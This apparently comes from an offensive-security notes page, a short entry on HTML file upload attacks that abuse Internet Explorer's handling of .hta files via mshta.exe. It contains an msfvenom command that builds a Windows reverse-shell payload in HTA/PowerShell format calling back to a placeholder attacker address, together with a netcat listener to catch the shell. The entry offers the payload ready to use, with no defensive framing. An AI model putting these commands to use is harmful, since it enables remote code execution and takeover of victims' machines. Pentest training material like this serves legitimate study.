 
## HTML File Upload

If a file is created with the extension of _**.hta**_ instead of _**.html**_, Internet Explorer will automatically interpret it as an HTML Application and offer the ability to execute it using the mshta.exe program. This attack only works for Internet Explorer.

```
# Crafting a payload and listener
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<port> -f hta-psh -o evil.hta
nc -lnvp 4444
```
